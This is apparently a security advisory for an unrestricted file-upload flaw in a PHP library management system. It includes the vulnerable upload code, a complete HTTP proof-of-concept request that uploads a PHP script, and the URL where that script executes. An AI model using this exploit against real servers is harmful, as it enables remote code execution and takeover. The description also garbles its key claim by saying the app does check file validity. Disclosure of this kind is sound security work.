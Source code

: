 #### Title: Library Management System with QR code Attendance 1.0 File Upload RCE
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 27.06.2022
#### Vendor: https://www.sourcecodester.com/users/kingbhob02
#### Software: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
#### Version: 1.0
#### Reference: 
#### Description：
#### At the file upload function, the application system checks the validity of the file type, format, and content uploaded by the user, so that attackers can upload Webshell (.php, .jsp, asp, etc.) malicious script files or files in unexpected formats, such as: HTML files, SHTML files, etc., at the same time, you can use characters such as directory jump or control the upload directory to directly upload files to the Web directory or any directory, which may lead to the execution of arbitrary malicious script files on the remote server, thereby directly obtaining application system permissions.

#### $uploaddir = 'assets/uploads/';
#### $uploadfile = $uploaddir . basename($_FILES['image']['name']);

#### Payload used:
`<?php phpinfo();?>`

### POC
```POST /LMS/card/index.php HTTP/1.1
Host: localhost
Content-Length: 1056
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryngJP5BxPA6UsA91O
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/LMS/card/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0r78mi76ub6k55p8mkce7f4pco
Connection: close

------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="name"

File_Upload
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="grade"

Computer Studies
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="dob"

Student
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="address"

Testing Testing
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="email"

ashish@cyberthoth.in
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="exp_date"

1990-02-11
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="id_no"

8529637
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="phone"

1212121212
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="image"; filename="File_upload.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryngJP5BxPA6UsA91O--
```

#### Access below URL:
`http://localhost/LMS/card/assets/uploads/File_upload.php`

image.png
